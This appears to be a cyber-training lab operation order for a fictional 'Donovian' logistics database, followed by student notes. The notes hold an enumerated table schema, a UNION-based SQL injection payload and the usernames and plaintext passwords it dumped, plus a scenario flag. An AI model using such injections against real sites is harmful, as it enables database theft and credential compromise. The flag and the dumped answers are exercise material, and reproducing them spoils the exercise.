 # Donovian Database Exploitation (DWDBE)
XX Dec 2026
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver through network, identify and gather intelligence from the Donovian Logistics Agency database.

Tools/Techniques: All connections will be established through web browser to donovian-nla. SSH masquerade to Donovian_Webserver with provide credentials. Ports in use will be dependent on target location and are subject to change. Web exploitation techniques are limited to SQLi injections. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = 5QL1nj3ct5t@rt0F@ct1v1ty

Prior Approvals: SQLi injects through web browser. Creation of database administrator account if directed to. Any connection to donovian-nla other than HTTP/HTTPs is NOT approved.

## Scheme of Maneuver:
>Jump Box
->T1:10.100.28.48

## Target Section:

T1
Hostname: donovian-nla
IP: 10.100.28.48
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
Last Known HTTP Port: 80
PSP: Unknown
Malware: Unknown
Action: Conduct approved SQLi Exploitation techniques to collect intelligence.

categories	id	3.00
categories	name	3.00
categories	description	3.00

members	id	3.00
members	username	3.00
members	password	3.00
members	first_name	3.00
members	last_name	3.00
members	email	3.00
members	permission	3.00

orderlines	id	3.00
orderlines	quantity	3.00
orderlines	product	3.00
orderlines	order	3.00

orders	id	3.00
orders	date	3.00
orders	member	3.00

payments	id	3.00
payments	creditcard_number	3.00
payments	date	3.00
payments	order	3.00

permissions	id	3.00
permissions	level	3.00
permissions	name	3.00
permissions	description	3.00

products	id	3.00
products	name	3.00
products	description	3.00
products	price	3.00
products	qty_left	3.00
products	category	3.00

share4	id	3.00
share4	comment	3.00
share4	mime	3.00
share4	data	3.00


union select username,password,permission from members#
## username, password, permission
Boss	CdOETQHZoOD0hPvReTMr	1.00
Maverick	turn&burn	3.00
phreak	pwd	4.00
Susan	flowers99	3.00
TW	imAPlaya	2.00
1-2-3-4	sayULuvM3	2.00
rich_kid	1M$	2.00
p0pStar	thrilla	2.00
Joe	vato	2.00
	flag:	4.00
hacker	password	3.00
	flag:	3.00
